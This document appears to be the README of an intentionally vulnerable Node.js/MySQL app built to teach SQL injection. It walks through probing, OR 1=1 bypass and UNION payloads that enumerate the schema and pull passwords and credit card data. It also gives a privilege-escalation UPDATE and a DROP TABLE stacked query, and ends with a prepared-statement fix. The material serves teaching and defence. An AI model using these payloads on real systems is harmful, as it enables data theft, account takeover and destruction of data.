 # Learning SQL Injection

## Description

This intentional bad written node.js app demonstrate how SQL injections can
happen and how they could be abused.

## WARNING - DISCLAIMER

THIS APP IS VULNERABLE AGAINST SQL INJECTION, ONLY EXECUTE THE APP FOR LEARNING
PURPOSES AND ONLY WITHIN A TRUSTED ENVIRONMENT AND ONLY WITH A DATABASE USER
WITH LIMITED ACCESS.

TO REDUCE THE RISK THE APP ONLY LISTENS TO CONNECTIONS FROM LOCALHOST.

USE THE APP AT YOUR OWN RISK!

## Setup

To prepare this demo you need to do the following:
 - execute `npm install` (this will install mysql and express)
 - import `example-database.sql` into an empty MySQL database
 - copy `db.js.example` to `db.js`
 - change `db.js` and enter you database config

To run the demo:
 - execute `npm start`
 - open http://localhost:3000

## The bad code

The /hw endpoint in the app.js builds the SQL query by simply concatenating
the query template (`SELECT ... LIKE '%`) with the user's input for filtering
the result (`req.query.name`) and the end part of the SQL query (`%'`).

## What the developer wanted

The SQL query which is sent to the database server should look like:

```
SELECT
name, stock, price
FROM product
WHERE name LIKE '%hammer%'
```

## Inject

The attacker wants to inject his own code.

He finds the vulnerability by searching for `Ham'mer`. The server returns an error.
And this is the good signal for the attacker.

The attacker doesn't know the SQL query, but it was:

```
SELECT
name, stock, price
FROM product
WHERE name LIKE '%Ham'mer%'
```

As you can see this is not a valid SQL query, hence the error.

Next step would be to make the SQL query valid again:
The attacker searches for `something' OR 1=1 -- comment` and the query becomes:

```
SELECT
name, stock, price
FROM product
WHERE name LIKE '%something' OR 1=1 -- comment%'
```

This will show all products even if they not have `something` in the name.

The `-- comment` part ensures, that everything after the double hyphen is ignored
because it's a SQL comment.

## Be Creative

### Select other stuff

With the `UNION` keyword you can combine two queries into one result set.

Searching for `' UNION SELECT 'a' -- comment` will throw an error.
The attacker does not know the exact error, but he assumes it is the follwing:

`The used SELECT statements have a different number of columns`

To get the `UNION` keyword working the second SQL query (the attacker's one) must have
exactly the same number of columns as the internal one (which he doesn't know).

After trying a query with two columns (error) the following injection
returns the products again:

Search term: `' UNION SELECT 'a', 'b', 'c' -- comment`

Resulting query:

```
SELECT
name, stock, price
FROM product
WHERE name LIKE '%' UNION SELECT 'a', 'b', 'c' -- comment%'
```

This will show the product `a, b, c` in the result.

### Examples

`xyz' UNION SELECT 'a', 'b', 'c' -- comment`

`xyz' UNION SELECT TABLE_SCHEMA, TABLE_NAME, 'c' FROM information_schema.TABLES -- comment`

`xyz' UNION SELECT TABLE_SCHEMA, TABLE_NAME, COLUMN_NAME FROM information_schema.COLUMNS -- comment`

`xyz' UNION SELECT TABLE_SCHEMA, TABLE_NAME, COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = 'sql_learning_injection' -- comment`

```xyz' UNION SELECT name, mail, `group` FROM user -- comment```

```xyz' UNION SELECT id, name, CONCAT_WS('<br/>', id, name, password, clear_pw, credit_card, mail, `group`) FROM user -- comment```

### Further ideas (not part of this learning)

#### When updating own user details inject sql to set group to admin

Bad query
`UPDATE user SET mail = '" + req.query.mail + "' WHERE id = " + user_id`

with user input
```my.mail@example.com ', `group` = 'admin```

becomes
```UPDATE user SET mail = 'my.mail@example.com ', `group` = 'admin' WHERE id = 42```

#### Execute multiple queries

Bad query
`SELECT name, stock, price FROM product WHERE name LIKE '%" + req.query.name + "%'`

with user input
`'; DROP TABLE USER -- --`

becomes
`SELECT name, stock, price FROM product WHERE name LIKE '%'; DROP TABLE USER -- --%'`

As you can see, there is a second statement appended (`DROP TABLE USER`) which
deletes the complete user table.


## The good code ... or: How to avoid them

Don't use user input directly.

Either escape the user input properly or better use prepared statements and bind the user input to parameters.

## Example

```
app.get('/hw', function (req, res) {
    const query = "SELECT name, stock, price FROM product WHERE name LIKE ?";
    const param = ['%' + req.query.name + '%'];
    conn.query(query, param, (err, rows) => {
       if (err) {
           res.status(500).send(err.toString());
       } else {
           res.status(200).json(rows);
       }
    });
});
```

Small code change, huge outcome!

Do it! Do it everywhere!

